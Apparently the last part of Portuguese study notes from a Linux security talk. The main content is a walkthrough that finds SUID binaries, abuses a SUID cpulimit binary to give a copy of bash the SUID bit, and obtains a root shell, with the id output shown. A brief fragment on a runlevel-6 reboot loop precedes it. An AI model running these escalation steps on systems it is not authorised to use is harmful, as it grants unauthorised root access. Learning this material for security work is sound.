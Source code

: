 _`id:6:initdefault`_
- Botão Power
  - BIOS/MBR
    - gerenciador de boots (grub2)
      - kernel
        - init = 6 (reboot)

Caímos em um loop.
          
## Privilege Escalation

Vamos tentar fazer um ataque de _privilege escalation_ em um Linux, usando as permissões como área de exploração.

Primeiro vamos pesquisar na raiz do sistema, todo arquivo que tenha a permissão 4000, com o comando `find / -perm -4000 2>/dev/null`:

![/assets/seguranca-em-linux-notes/screenshot9][screenshot9]

Obteremos vários resultados úteis, mas o que queremos é o _cpulimit_:

![/assets/seguranca-em-linux-notes/screenshot10][screenshot10]

O _cpulimit_ tem a permissão _SUID BIT_, ou seja, quando executa-lo ele irá trabalhar como root. Sendo assim, podemos criar uma pasta na raiz executando o comando `cpulimit -l 100 -r mkdir /pasta`, mesmo como um usuário comum:

![/assets/seguranca-em-linux-notes/screenshot11][screenshot11]

Bem, se podemos executar um binário como root, e se usarmos isso para dar permissão _SUID BIT_ também no binário `bash`?

![/assets/seguranca-em-linux-notes/screenshot12][screenshot12]



1. Dou permissão SUID BIT para o binário bash  
  ```
  ~$ cpulimit -l 100 -f chmod 4755 /usr/bin/bash
  ```
2. Movo o binário para minha pasta  
  ```
  ~$ cpulimit -l 100 -f cp /usr/bin/bash /mr_robot/
  ```
3. Certifico que ele tem as permissões necessárias
  ```
  ~$ cpulimit -l 100 -f chmod +s /mr_robot/bash
  ```
4. Por fim executo o binário
  ```
  ~$ ./bash -p
  ```
  ```
  ~# id
  uid=1001(mateus) gid=1001(mateus) euid=0(root) groups=1001(mateus)
  ```

---


# referências

Segurança em Linux - Christiano Linuxman | ROADSEC@HOME#37: [_https://www.youtube.com/watch?v=AzB5BNDTXOk_](https://www.youtube.com/watch?v=AzB5BNDTXOk)


[screenshot1]: https://i.ibb.co/FwtgFW9/screenshot1.png
[screenshot2]: https://i.ibb.co/Vp6L0Wd/screenshot2.png
[screenshot3]: https://i.ibb.co/cQwP1vZ/screenshot3.png
[screenshot4]: https://i.ibb.co/vLt4SWD/screenshot4.png
[screenshot5]: https://i.ibb.co/Bz24N39/screenshot5.png
[screenshot6]: https://i.ibb.co/yXY0CF6/screenshot6.png
[screenshot7]: https://i.ibb.co/vmK7kkf/screenshot7.png
[screenshot8]: https://i.ibb.co/0f47hDk/screenshot8.png
[screenshot9]: https://i.ibb.co/nsd2Xnr/screenshot9.png
[screenshot10]: https://i.ibb.co/x3KW4wx/screenshot10.png
[screenshot11]: https://i.ibb.co/DC9K3Vv/screenshot11.png
[screenshot12]: https://i.ibb.co/N1VyGNC/screenshot12.png